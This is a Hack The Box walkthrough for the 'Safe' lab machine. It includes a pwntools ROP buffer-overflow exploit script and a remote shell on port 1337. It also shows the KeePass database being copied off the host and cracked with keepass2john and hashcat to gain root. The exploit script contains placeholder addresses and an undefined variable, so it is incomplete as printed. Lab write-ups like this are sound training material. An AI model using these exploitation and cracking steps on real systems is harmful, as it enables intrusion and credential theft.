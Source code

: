 # HTB: Safe Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## Recon

### Nmap Scan
Identified open ports:
- **TCP 80** [HTTP](HTTP)
- **TCP 1337** (discovered via source code comment)

Performed additional scans:
```bash
nmap -sC -sV -p- 10.10.10.147
```

### Nikto Scan
Revealed default Apache page and /manual directory. A comment in the source code hinted at port 1337 and a downloadable binary (`myapp`).

## Binary Analysis (Buffer Overflow)

### Initial Test
Ran `myapp`, asked user input. Created a basic overflow with Python:
```python
print("A" * 200)
```
Submitted 200 A's and caused a crash.

### Using GDB (with peda)
- Ran `checksec`:
  - NX enabled
  - RELRO Partial
- Set follow mode: `set follow-fork-mode parent`
- Ran program with cyclic pattern from pwntools:
```python
from pwn import *
cyclic(200, n=8)
```

Used `x/xg $rsp` to get the address and determine the offset with:
```bash
pattern offset -q <value from RSP>
```
Offset identified: **120**

### Using Radare2
```bash
r2 -d myapp
[0x00000000]> aaa
[0x00000000]> afl
```
Revealed functions:
- `main` uses `/usr/bin/uptime` with a `system()` call
- `test` function contains a usable `pop r13; ret` gadget

### Using ROPgadget
Found:
- `pop r13; pop r14; pop r15; ret`

## ROP Chain Construction
- Place `/bin/sh` into memory
- Set r13 to `system@plt`
- Use gadget to pop r13, r14, r15 with dummy values
- Jump to `test()`

## Exploit Script
Local exploit with pwntools:
```python
from pwn import *
context.binary = './myapp'
p = process('./myapp')

offset = 120
pop_r13_r14_r15 = p64(0xdeadbeef)
system = p64(0xdeadbeef)
binsh = b"/bin/sh\x00"

payload = b"A" * offset
payload += pop_r13_r14_r15
payload += system
payload += p64(0x0) * 2
payload += p64(address_of_test)

p.sendlineafter("echo back?", payload)
p.interactive()
```

## Remote Exploitation
Modified above to use remote connection:
```python
p = remote('10.10.10.147', 1337)
```
Gained shell and accessed:
```bash
cat /home/user/user.txt
```

## Root Flag (KeePass)
### KeePass DB Found
- File: `MyPasswords.kdbx`
- Images: `IMG_0547.JPG`, etc.

### Exfiltration
- Base64 encoded files and copied to local machine
```bash
base64 MyPasswords.kdbx > kdbx.b64
```
- Decoded on attacker box
```bash
base64 -d kdbx.b64 > MyPasswords.kdbx
```

### SSH Key Auth Setup
- Generated RSA key pair
- Copied public key to `~/.ssh/authorized_keys`

### File Transfer
```bash
scp -i id_rsa user@10.10.10.147:IMG_0547.JPG .
```

### KeePass2John
Generated hash:
```bash
keepass2john MyPasswords.kdbx IMG_0547.JPG > hash.txt
```

### Cracking
```bash
hashcat -a 0 -m 13400 hash.txt rockyou.txt
```
Found password: `somepass123`

### Unlock DB
Used KeePassXC:
- Password: `somepass123`
- Key file: `IMG_0547.JPG`
- Retrieved: **Root password**

### Root Access
```bash
ssh -i id_rsa user@10.10.10.147
su root
```
Used KeePass creds for `root`, accessed:
```bash
cat /root/root.txt
```

## Flags
- **User:** `xxxx...`
- **Root:** `xxxx...`

## Resources
- [ROP Emporium](https://ropemporium.com/)
- [Pwntools Docs](http://docs.pwntools.com/en/stable/)
- [Keepass2John Guide](https://rubydevices.com.au/blog/how-to-hack-keepass)